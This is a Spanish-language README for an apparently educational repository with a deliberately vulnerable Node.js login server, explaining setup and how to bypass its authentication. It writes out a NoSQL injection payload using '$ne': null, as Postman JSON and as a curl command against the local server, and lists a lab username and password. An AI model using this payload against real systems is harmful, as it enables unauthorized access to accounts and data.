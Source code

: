 NoSQL-Inyection

INSTALACIÓN Y USO (en Linux o Windows)

Clona el repo
Abre la terminal y escribe esto:
git clone https://github.com/JavierNila/NoSQL-Inyection.git
cd NoSQL-Inyection

Instala lo que necesita
Dentro de la carpeta del proyecto:
npm install
npm install cors
Eso va a bajar todas las cosas necesarias. El cors es para que el navegador no se queje.

Corre el servidor
Lánzalo con:
node server.js
Va a estar corriendo en http://localhost:3000

Abre el frontend
Solo abre el archivo index.html en tu navegador. Ya con eso.

CÓMO SE USA

Escribes un usuario y contraseña en la página (la de index.html)

Le das a “Ingresar” y eso manda los datos al backend en http://localhost:3000/login

Si quieres probar inyecciones NoSQL, puedes usar Postman o directamente desde la terminal con curl

POSTMAN
Abres Postman, haces un POST a http://localhost:3000/login
Vas a “Body”, eliges “raw” y formato JSON
Pegas esto:

{
  "username": { "$ne": null },
  "password": { "$ne": null }
}

Y le das enviar. Deberías entrar sin usar credenciales reales.

Si prefieres terminal, escribe esto:
curl -X POST http://localhost:3000/login -H "Content-Type: application/json" -d '{"username": { "$ne": null }, "password": { "$ne": null }}'

Y listo, te deja entrar por la vulnerabilidad de NoSQL Injection.

IMPORTANTE
Las credenciales que nos otorgaron (username: student, password: dPgF0sb0ADBUZHCI) no funcionan
